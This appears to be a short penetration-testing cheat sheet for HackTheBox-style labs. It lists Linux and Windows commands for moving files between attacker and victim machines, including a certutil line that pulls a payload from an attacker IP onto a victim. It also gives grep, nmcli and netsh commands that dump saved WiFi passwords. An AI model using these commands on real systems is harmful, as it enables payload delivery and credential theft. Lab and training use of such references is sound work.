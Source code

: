 # Useful Commands

## Linux

- Bash
  - transfer files between attacker/victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim
  - dump WiFi network passwords
    - `sudo grep -r '^psk=' /etc/NetworkManager/system-connections/`
      - of all remembered WiFi networks
    - `nmcli dev wifi show-password`
      - of currently connected WiFi network
  - loop through array and execute command on elements inside
    - `for i in "${array[@]}"; do <command> "$i"; done`
  - fix for HTB OVPN problems
    - create a file `sudo vim /etc/network/if-up.d/tun0-mtu`
      - ```#!/bin/sh

if [ "$IFACE" = "tun0" ]; then
    sudo ifconfig tun mtu 1200
fi
        ```

## Windows

- cmd
  - transfer files between attacker/victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload payload`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files
      - use anonymous login
  - dump WiFi network passwords
    - `netsh wlan show profiles name="$SSID" key=clear`
      - of all remembered WiFi networks
